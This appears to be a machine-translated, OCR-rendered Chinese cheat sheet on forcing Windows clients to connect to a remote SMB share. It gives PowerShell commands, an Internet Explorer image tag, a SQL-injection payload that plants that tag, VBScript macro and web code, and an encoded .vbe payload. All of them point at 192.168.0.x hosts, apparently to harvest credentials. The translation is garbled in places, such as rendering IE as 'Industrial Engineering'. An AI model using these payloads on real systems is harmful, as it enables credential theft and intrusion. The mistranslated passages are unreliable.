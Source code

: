 Powershell 中可能有许多 scriptlets 可以解析网络路径。

# Powershell

```
Invoke-Item \\192.168.0.1\aa 
Get-Content \\192.168.0.1\aa 
Start-Process \\192.168.0.1\aa
```

# 工业管理学(Industrial Engineering)

IE 将解析 UNC 路径。例如

```
<img src="\\\\192.168.0.1\\aa">
```

你可以在 XSS 或者 SQL 注入的场景下注射。比如说。

```
[http://host.tld/?id=-1'](http://host.tld/?id=-1') union select 1,'<img src="\\\\192.168.0.1\\aa">';%00
```

# VBScript

您可以将此另存为。vbs 或可用于应用于 Word 或 Excel 文件的宏中。

```
Set fso = CreateObject("Scripting.FileSystemObject") 
Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
```

你可以在网页上申请，但这只适用于 IE。

```
<html>
<script type="text/Vbscript">
<!--
Set fso = CreateObject("Scripting.FileSystemObject")
Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
//-->
</script>
</html>
```

这是编码版本。你可以将它编码并保存为 something.vbe

```
#@~^ZQAAAA==jY~6?}'ZM2mO2}4%+1YcEUmDb2YbxocorV?H/O+h6(LnmDE#=?nO,sksn{0dWcGa+U:+XYsbVcJJzf*cF*cF*2 yczmCE~8#XSAAAA==^#~@
```

你也可以在 HTML 文件中应用它。但只适用于 IE。你可以将它保存为 something.hta，这将是 windows 下的一个 HTML 应用程序，mshta.exe 将执行它。默认情况下，它使用 IE。
